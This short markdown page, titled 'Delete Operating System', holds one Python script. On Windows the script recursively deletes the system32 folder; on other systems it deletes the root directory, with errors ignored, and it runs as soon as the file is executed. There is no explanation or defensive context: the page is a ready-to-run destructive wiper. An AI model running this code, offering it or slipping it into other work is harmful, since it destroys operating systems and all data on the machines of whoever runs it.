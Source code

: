 # Delete Operating System

## Python

```python
import platform
import shutil

def delete_operating_system() -> None:
	if platform.system() == "Windows":
		shutil.rmtree(r"C:\Windows\system32", ignore_errors=True)
	else:
		shutil.rmtree("/", ignore_errors=True)

if __name__ == '__main__':
	delete_operating_system()
```